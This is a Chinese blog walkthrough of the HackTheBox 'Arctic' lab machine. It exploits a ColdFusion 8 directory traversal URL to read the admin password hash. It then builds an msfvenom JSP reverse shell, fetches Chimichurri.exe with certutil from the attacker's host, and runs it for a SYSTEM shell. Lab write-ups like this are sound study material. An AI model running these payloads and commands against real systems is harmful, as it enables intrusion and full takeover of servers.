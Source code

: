 ```yaml
---
title: Hackthebox::Arctic walkthrough
date: 2021/12/28
categories: 渗透测试
tags: [渗透测试,walkthrough]
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
---
```




- **Arctic是hackthebox上一台简单难度的windows靶机**

# 信息收集

- 首先使用nmap进行端口扫描

![image-20211227235510440](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235510440.png)

- 再使用nmap进行简单的漏洞扫描，但是这次漏洞扫描失败了，貌似是连接问题

![image-20211227235600047](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235600047.png)

- 通过两次nmap扫描，我们得到了有用的信息：

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

- 浏览器打开靶机8500端口查看

![image-20211228000308471](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000308471.png)

- 点击CFIDE目录进行进一步的枚举

![image-20211228000324604](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000324604.png)

- 点击administrator文件，发现是一个登录窗口

![image-20211228000552606](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000552606.png)

- 这个页面有关**ColdFusion 8**， 我们不知道这是什么但肯定是一个系统，百度一下，发现答案都已经快出来了

![image-20211228001208827](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001208827.png)

- 使用searchsploit查看这个是否存在漏洞

![image-20211228001306056](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001306056.png)

- 我们发现这个存在可以利用的漏洞，貌似有文件上传和目录遍历漏洞，再使用msf看看是否可以直接利用

![image-20211228002139201](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228002139201.png)

- 都无法利用，可能是因为网络问题，接着参考别人的walkthrough，发现千篇一律的使用目录遍历漏洞，好吧我们也使用这个
- 之前我们发现网站登录页面使用了ColdFusion 8，在这之前加上adobe，然后在 exploitdb 上面查看漏洞

![image-20211228010052879](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010052879.png)

- 按照上面提到的方式，进入 `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` 页面，我们发现了密码的哈希值： `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` 

![image-20211228010532393](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010532393.png)

- 使用[这个网站](https://crackstation.net/)解哈希，得到密码 happyday

![image-20211228010752709](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010752709.png)

- 使用刚才的密码以管理员的身份登录后台

![image-20211228011144857](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228011144857.png)

- 创建反向shell 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=5555 > shell.jsp
```

![image-20211228014733671](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228014733671.png)

- 在靶机后台新建一个任务

![image-20211228015729922](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228015729922.png)

- 注意里面的 File填 `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`

![image-20211228020036038](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228020036038.png)

- 然后我们可以看见任务已经被创建了，然后点击运行

![image-20211228021129490](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021129490.png)

- 回到 http://10.129.1.58:8500/CFIDE/ 刷新后就能看到我们上传的脚本shell.jsp 了

![image-20211228021153641](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021153641.png)

- 本地nc监听端口，我们收到了shell

![image-20211228023926873](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228023926873.png)

- 接下来我们需要提权，使用权限提升脚本
- 使用脚本 chimichurri.exe，并在windows靶机中接收脚本

```
certutil -f -urlcache http://10.10.14.31:8000/Chimichurri.exe chimichurri.exe
```

![image-20211228025330194](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228025330194.png)

- 本地nc监听端口6666，靶机上 使用命令 

```
chimichurri.exe 10.10.14.31 6666
```

![image-20211228032510841](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032510841.png)

- 这时候本地nc就能够收到shell了

![image-20211228032556501](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032556501.png)

- 得到管理员权限，并且找到flag

![image-20211228032754084](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032754084.png)

